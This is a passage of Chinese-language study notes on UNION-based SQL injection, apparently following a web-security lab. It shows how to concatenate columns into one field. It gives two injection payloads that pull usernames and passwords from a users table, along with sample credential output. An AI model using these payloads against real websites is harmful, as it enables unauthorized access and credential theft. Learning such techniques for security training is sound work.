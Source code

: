 ![image-20250430235822483](./img/image-20250430235822483.png)

#### 检索单个列中的多个值

在此单个列中一起检索多个值，可以包含一个分隔符，以便区分组合值。例如，在 Oracle 上，可以提交以下输入：

```
' UNION SELECT username || '~' || password FROM users--
```

这使用双管道序列 `||`，它是 Oracle 上的字符串串联运算符。注入的查询将 `username` 和 `password` 字段的值连接在一起，以 `~` 字符分隔。

```
administrator~s3cure
wiener~peter
carlos~montoya
```

不同的数据库使用不同的语法来执行字符串连接

例子：

```
' union select '1',username||':'||password from Users--+
```
